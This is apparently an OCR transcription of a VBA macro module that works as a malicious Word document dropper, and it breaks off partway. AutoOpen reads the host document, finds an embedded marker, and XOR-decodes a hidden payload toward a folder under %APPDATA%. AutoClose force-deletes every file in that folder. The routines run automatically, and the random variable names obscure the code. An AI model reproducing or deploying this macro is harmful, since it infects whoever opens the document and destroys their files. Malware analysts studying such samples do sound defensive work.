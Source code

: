Output:
```vb
Attribute VB_Name = "Module1"
Public OBKHLrC3vEDjVL As String
Public B8qen2T433Ds1bW As String
Function Q7JOhn5pIl648L6V43V(EjqtNRKMRiVtiQbSblq67() As Byte, M5wI32R3VF2g5B21EK4d As Long) As Boolean
Dim THQNfU76nlSbtJ5nX8LY6 As Byte
THQNfU76nlSbtJ5nX8LY6 = 45
For i = 0 To M5wI32R3VF2g5B21EK4d - 1
EjqtNRKMRiVtiQbSblq67(i) = EjqtNRKMRiVtiQbSblq67(i) Xor THQNfU76nlSbtJ5nX8LY6
THQNfU76nlSbtJ5nX8LY6 = ((THQNfU76nlSbtJ5nX8LY6 Xor 99) Xor (i Mod 254))
Next i
Q7JOhn5pIl648L6V43V = True
End Function
Sub AutoClose()
On Error Resume Next
Kill OBKHLrC3vEDjVL
On Error Resume Next
Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
R7Ks7ug4hRR2weOy7.DeleteFile B8qen2T433Ds1bW & "\*.*", True
Set R7Ks7ug4hRR2weOy7 = Nothing
End Sub
Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim NEnrKxf8l511
Dim N18Eoi6OG6T2rNoVl41W As Long
Dim M5wI32R3VF2g5B21EK4d As Long
N18Eoi6OG6T2rNoVl41W = FileLen(ActiveDocument.FullName)
NEnrKxf8l511 = FreeFile
Open (ActiveDocument.FullName) For Binary As #NEnrKxf8l511
Dim E2kvpmR17SI() As Byte
ReDim E2kvpmR17SI(N18Eoi6OG6T2rNoVl41W)
Get #NEnrKxf8l511, 1, E2kvpmR17SI
Dim KqG31PcgwTc2oL47hjd7Oi As String
KqG31PcgwTc2oL47hjd7Oi = StrConv(E2kvpmR17SI, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim VUy5oj112fLw51h6S
Set VUy5oj112fLw51h6S = CreateObject("vbscript.regexp")
VUy5oj112fLw51h6S.Pattern = "MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh"
Set I4j833DS5SFd34L3gwYQD = VUy5oj112fLw51h6S.Execute(KqG31PcgwTc2oL47hjd7Oi)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 16827
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #NEnrKxf8l511, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not Q7JOhn5pIl648L6V43V(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
B8qen2T433Ds1bW = Environ("appdata") & "\Microsoft\Windows"
Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
If Not R7Ks7ug4hRR2weOy7.FolderExists(B8qen2T433Ds1bW) Then
B8qen2T433Ds1bW = Environ("appdata")
End If
Set R7Ks7ug4hRR2weOy7 = Nothing
```